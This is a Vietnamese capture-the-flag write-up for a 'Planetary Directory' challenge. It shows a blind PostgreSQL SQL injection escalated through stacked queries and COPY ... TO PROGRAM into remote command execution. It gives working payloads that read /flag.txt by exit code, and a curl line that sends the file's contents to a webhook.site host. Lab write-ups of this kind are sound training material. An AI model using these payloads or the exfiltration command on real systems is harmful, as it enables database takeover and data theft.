



# Planetary Directory

```
The Galactic Federation has opened public access to its Planetary Probe Directory, a database of known planets and their telemetry signatures. Your mission is to interface with the probe console and uncover hidden data the Federation would rather keep secret.

The console seems… minimal. No verbose errors, no detailed output — just “signal detected” or “no signal”. Can you find a way to communicate with the system, bypass its limited responses, and recover the hidden flag?
```

## Recon và xác nhận SQLi



Mình thử các input sau:

```text
MAR       -> Signal detected
EARTH     -> Signal detected
a         -> No signal
```

Test SQL, 2 điều kiện Boolean cho phản hồi sau:

```text
' OR '1'='1' --  -> Signal detected
' OR '1'='2' --  -> No signal
```

## Fingerprint và enumerate database

Kiểm tra DBMS:

```text
`' OR length(version()) > 0 --`           -> Signal detected
`' OR length(@@version) > 0 -- -`         -> No signal
`' OR length(sqlite_version()) > 0 --`    -> No signal
```

-> Suy ra được backend là PostgreSQL.

## Stacked query và quyền thực thi chương trình

Mình thử các stacked query, thấy tham số chấp nhận nhiều statement:

```text
a'; SELECT 1 WHERE true; --   -> Signal detected
a'; SELECT 1 WHERE false; --  -> No signal
```

Tiếp theo mình kiểm tra role:

```text
' OR pg_has_role('pg_execute_server_program', 'member') --
```

Kết quả `Signal detected`. Vậy là quyền này cho phép dùng `COPY ... TO PROGRAM` để chạy command trên host của PostgreSQL. Thử chạy command sau:

```text
a'; COPY (SELECT 1) TO PROGRAM 'test -r /etc/hostname; rc=$?; cat >/dev/null; exit $rc'; SELECT 1; --
```

`cat >/dev/null` đọc hết dữ liệu mà `COPY` gửi vào `stdin`, giúp tránh lỗi
`broken pipe`. Payload chạy thành công và trả `Signal detected`.

-> RCE

Sau khi có RCE, mình dò từng ký tự của `/flag.txt` bằng mã thoát của command. Biết flag có format `sun{...}`, payload kiểm tra từng vị trí:

```text
a'; COPY (SELECT 1) TO PROGRAM 'test "$(cut -c1 /flag.txt)" = "s"; rc=$?; cat >/dev/null; exit $rc'; SELECT 1; --
a'; COPY (SELECT 1) TO PROGRAM 'test "$(cut -c2 /flag.txt)" = "u"; rc=$?; cat >/dev/null; exit $rc'; SELECT 1; --
a'; COPY (SELECT 1) TO PROGRAM 'test "$(cut -c3 /flag.txt)" = "n"; rc=$?; cat >/dev/null; exit $rc'; SELECT 1; --
a'; COPY (SELECT 1) TO PROGRAM 'test "$(cut -c4 /flag.txt)" = "{"; rc=$?; cat >/dev/null; exit $rc'; SELECT 1; --
....
```

- Nếu ký tự đúng, command thoát với mã `0`, `COPY` hoàn tất và `SELECT 1` cuối cùng trả về `Signal detected`.

- Nếu sai, command thoát với mã khác `0`, request trả về `No signal`.

Cách này rất mất thời gian vì mỗi vị trí phải thử nhiều ký tự. Vì vậy mình dùng payload sau đọc toàn bộ flag rồi gửi tới webhook:

```text
a'; COPY (SELECT 1) TO PROGRAM 'cat >/dev/null & p=$!; F=$(head -n 1 /flag.txt); curl -G --data-urlencode "flag=$F" https://webhook.site/<TEMPORARY_TOKEN> >/dev/null 2>&1; rc=$?; wait $p; exit $rc'; SELECT 1; --
```



Webhook nhận được:



## Flag

```text
sun{bl1nd_psqli_2_rc3_p4Nd0FyZt8k2}
```
